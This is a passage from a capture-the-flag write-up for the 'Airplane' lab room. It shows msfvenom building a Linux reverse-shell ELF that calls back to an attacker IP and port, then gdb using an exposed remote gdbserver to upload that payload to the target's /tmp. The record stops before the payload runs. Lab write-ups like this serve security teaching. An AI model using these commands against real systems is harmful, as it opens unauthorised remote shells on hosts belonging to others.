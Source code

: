 ## MsfVenom

We can use [MsfVenom](../../3%20-%20Tags/Hacking%20Tools/MsfVenom.md) to create our payload and make it executable :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.162.183 LPORT=1337 PrependFork=true -f elf -o binary.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: binary.elf
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ ls   
binary.elf  environ  lfi-service-check.py  passwd
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ chmod +x *.elf
                                                        
```

Now we run it :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ gdb binary.elf 
GNU gdb (Debian 16.3-1) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from binary.elf...
(No debugging symbols found in binary.elf)

(gdb) target extended-remote airplane.thm:6048

(gdb) remote put binary.elf /tmp/binary.elf

```
